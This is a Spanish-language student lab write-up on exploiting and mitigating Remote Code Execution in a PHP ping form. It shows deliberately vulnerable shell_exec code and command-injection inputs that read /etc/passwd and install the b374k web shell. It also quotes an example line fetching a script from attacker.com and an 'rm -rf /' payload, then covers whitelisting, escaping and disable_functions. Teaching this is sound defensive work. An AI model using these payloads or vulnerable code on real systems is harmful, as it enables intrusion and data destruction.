# PPS-Unidad3Actividad6-RCE-RaulAlbalatPerez
Explotación y Mitigación de Remote Code Execution (RCE).
## Código vulnerable
---
En esta ocación vamos a ver una página en el que tenemos un input para meter una dirección ip.
El programa realizará un ping sobre la dirección que hayamos introducido.
escribimos  rce.php.
Para ello creo un directorio rce dentro de **www** para tener los rce que cree más adelante todos en el mismo sitio.Para este primer código php
lo llamo **rec.php**

Este código PHP toma una dirección IP enviada por un formulario web y ejecuta el comando ping al recibirla mediante POST, mostrando luego el resultado en pantalla. El formulario permite al usuario introducir una IP para hacer ping desde el servidor.
~~~
<?php
if (isset($_POST['ip'])) {
        $ip = $_POST['ip'];
        // Ejecutar el ping y capturar la salida
        $output = shell_exec("ping -c 4 " . $ip);
        echo $output;
}
?>
<form method="post">
        <input type="text" name="ip" placeholder="Ejemplo: 8.8.8.8" required>
        <button type="submit">Hacer Ping</button>
</form>
~~~


El código permite que el usuario pueda introducir los símbolos ";" "&" y de esta manera podemos ejecutar otros comandos adicionales en el sistema.

## Explotación de RCE
Entramos en la url con el comando 
---
Acceder a la URL y ejecutar un comando básico:
~~~
http://localhost/rce/rce.php
~~~


Si introducimos una dirección ip se nos muestra si el servidor está accesible



**Ver información del usuario**
Sin embargo podemos anudar consultas con el operador & por ejemplo 
~~~
8.8.8.8 & id
~~~
 que nos mostraría el usuario con el que estamos ejecutando las sentencias php:



Si se muestra información del sistema o similar (uid=1000(user) gid=1000(user)), la aplicación es vulnerable.



**Intentar listar archivos del servidor:**

Podemos llegar a listar los archivos del directorio donde se encuentra el archivo rce.php con 
~~~
8.8.8.8 & ls
~~~
Si se muestran archivos del sistema en pantalla, el ataque funciona.



**Probar más comandos:**
con el **cat /etc/passwd** nos muestra el contenido del archivo **/etc/passwd**, que contiene información sobre las cuentas de usuario del sistema
~~~
8.8.8.8 & cat /etc/passwd
~~~



Si muestra el contenido de /etc/passwd, el atacante puede extraer credenciales. Como vemos en la imagen nos lo muestra.

**Intentar descargar y ejecutar malware:**

Sólo para nuestro ejemplo dar permisos de escritura a /var/www/html/ . para ello nos tendremos que meter dentro del contenedor lamp-php83

~~~
sudo chmod -R 777 /var/www/html/
~~~
Introducimos codigo para concatenar la ip del servidor dns de Google, con descargar el proyecto git b374k: 
~~~
8.8.8.8 & git clone https://github.com/b374k/b374k.git /var/www/html/b374k
~~~

Si lo realiza, estará instalando en el directorio b374k un shell basado en PHP. Luego podremos acceder a él y ejecutar los comandos que queramos.



Comprobamos que se ha descargado  el **b374k**



~~~
http://localhost/b374k/index.php
~~~



El atacante tiene control total del sistema.

### Mitigaciones de RCE
Para las mitigaciones vamos a utilizar otros archivos: 

Este es el contenido de rce.php. Lo creamos dentro de www en el lamp
~~~
<?php
$output = shell_exec($_GET['cmd']);
echo "<pre>$output</pre>";
?>
~~~



El archivo rce.php nos va a permitar ejecutar comandos de forma que podemos llamarlo desde otros archivos o bien directamente de la forma:
~~~
http://localhost/rce.php?cmd=cat /etc/passwd
~~~



Por otra parte tenemos el archivo index.php que como ya tengo un **index.php** creo **index2.php** en www

~~~
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Ejecutar Comando</title>
</head>
<body>
    <h2>Ingrese el comando a ejecutar</h2>
    <form method="get" action="http://localhost/rce.php">
        <input type="text" name="cmd" placeholder="Ejemplo: whoami" required>
        <button type="submit">Ejecutar</button>
    </form>
</body>
</html>
~~~
que lo que hace es crearnos un input para solicitarnos el código a ejecutar y luego, llamar con él, a rce.php.



Nos vamos a la URL http://localhost/index2.php para verificarlo.



Vamos a modificar rce.php para mitigar las vulnerabilidades.

**Eliminar el uso de shell_exec()**
---
Si la ejecución de comandos no es necesaria, deshabilitar la funcionalidad completamente.

Código seguro (rce.php sin posibilidad de ejecución de comandos ya que se elimina totalmente)

~~~
<?php
die("Esta funcionalidad ha sido deshabilitada por razones de seguridad.");
?>
~~~



_Beneficios:_

- Bloquea cualquier intento de ejecución de código en el sistema.

- Evita ataques RCE de forma definitiva.

- No necesita más medidas de seguridad, ya que la ejecución de comandos es eliminada.

**Restringir Comandos Permitidos**

Si se necesita permitir algunos comandos específicos, usar una lista blanca (whitelist).

Código seguro (rce.php con lista blanca de comandos permitidos)

Me creo un rce3.php en el que ejecutare el código.php

~~~
<?php
$allowed_cmds = ["ls", "whoami", "pwd"];
if (!isset($_GET['cmd']) || !in_array($_GET['cmd'], $allowed_cmds)) {
        die("Comando no permitido.");
}
$output = shell_exec($_GET['cmd']);
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
~~~


Permitimos la ejecución de comandos ls, whoami, pwd, el resto dará mensaje de "comando no permitido".

Ante la consulta:

~~~
http://localhost/rce.php?cmd=ls
~~~

si nos permite ejecutar el comando ls



Pero sin embargo no nos permite la consulta:

~~~
http://localhost/rce.php?cmd=cat /etc/passwd

~~~


_Beneficios:_

- Lista blanca de comandos permite solo los necesarios (ls, whoami, pwd).

- Evita ejecución de comandos peligrosos (rm -rf /, wget, curl, nc).

- Evita XSS con htmlspecialchars(), protegiendo la salida de comandos.

**Ejecutar Comandos con Escapes Seguros**
---

Si se necesita ejecutar comandos con argumentos, usar escapeshellcmd() para evitar inyección de comandos.

Código seguro (rce.php con escapes para argumentos)

Para ello creo el **rce4.php** en **www**

~~~
<?php
if (isset($_GET['cmd'])) {
    // Obtener el comando de la URL
    $cmd = $_GET['cmd'];

    // Usar escapeshellarg para proteger la entrada
    $cmd_safe = escapeshellcmd($cmd);

    // Ejecutar el comando de manera segura
    $output = shell_exec($cmd_safe);
    if (empty($output)) {
            echo "Comando no permitido.";
    } else {
        // Mostrar la salida de forma segura
        echo "<pre>" . htmlspecialchars($output) . "</pre>";
    }
}
?>
~~~



- Escapa caracteres especiales con escapeshellcmd() para mayor seguridad.

> Si contienen caracteres especiales, exec no va a realizar ninguna consulta, por lo que comprobamos y mostramos aviso de error.
>
> Si queremos que sólo se utilicen comandos simples sin argumentos y sin concatenar, podemos añadir un paso de seguridad con escapeshellarg(). Cambiamos la línea:

~~~
    $cmd_safe = escapeshellarg($cmd);
~~~

Beneficios:

- escapeshellarg() protege argumentos, evitando que se concatenen con ;, &&, |.

- Evita inyección de comandos (wget http://attacker.com/shell.sh && bash shell.sh).

- Mayor flexibilidad, pero más seguro que la ejecución directa de shell_exec().

Ejemplo: Si alguien intenta enviar:

~~~
http://localhost/rce.php?cmd=ping 8.8.8.8; rm -rf /
~~~

La función **escapeshellarg()** convertirá la entrada en:  'ping 8.8.8.8; rm -rf/), eliminará todo el comando y no ejecuta nada. Por eso controlamos cadena vacía.



**Deshabilitar shell_exec() en PHP**

Si no se necesita ejecución de comandos en todo el servidor, deshabilitar las funciones peligrosas en php.ini.

Editar php.ini, para ello utilizamos el editor de texto nano (o el que prefiramos) para abrir la configuración de PHP de nuestro contenedor

~~~
docker exec -it lamp-php83 /bin/bash
~~~

Si estamos utilizando la pila LAMP con docker del laborario podemos ver en el archivo de configuración docker-compose.yml que hemos cambiado la ubicación de php:



Por lo tanto abrimos el archivo de configuración:

> Aquí una puntualización. Si estamos usando el escenario multicontenedor del entorno de pruebas, podemos ver como en el php.ini tenemos unas configuraciones mínimas, pero tenemos preparados dos ficheros de configuración: php.ini-production y php.ini-development. Si vamos a poner nuestro LAMP o bien en un entorno de producción o de desarrollo deberíamos de renombrar el archivo correspondiente como php.ini para que se establezcan esas configuraciones. Puedes descargarlo aquí el [php.ini](files/php.ini.rce) 
> 

~~~
sudo nano /usr/local/etc/php/php.ini
~~~

Buscar la línea disable_functions y agregar lo siguiente:

~~~
disable_functions = shell_exec, system, exec, passthru, popen, proc_open
~~~



Guardar los cambios y reiniciar Apache para aplicar los cambios

*Beneficios:*
- Bloquea la ejecución de comandos a nivel de servidor, sin necesidad de modificar el código PHP.
- Evita exploits y ejecución remota incluso si rce.php no está mitigado en el código.
- Es la mejor opción si no necesitas ejecutar comandos en PHP.

**Prueba Final**
---

Utilizamos el último archivo vulnerable que teníamos y probamos intentar obtener el usuario con la URL con cmd=id:

~~~
http://localhost/rce/rce4.php?cmd=id
~~~

Si la mitigación funciona, se debería ver el mensaje "Comando no permitido." en pantalla. o en el caso de que utilizamos el entorno de pruebas, el error php:



## ENTREGA

>__Realiza las operaciones indicadas__

>__Crea un repositorio  con nombre PPS-Unidad3Actividad7-Tu-Nombre donde documentes la realización de ellos.__

> No te olvides de documentarlo convenientemente con explicaciones, capturas de pantalla, etc.

>__Sube a la plataforma, tanto el repositorio comprimido como la dirección https a tu repositorio de Github.__
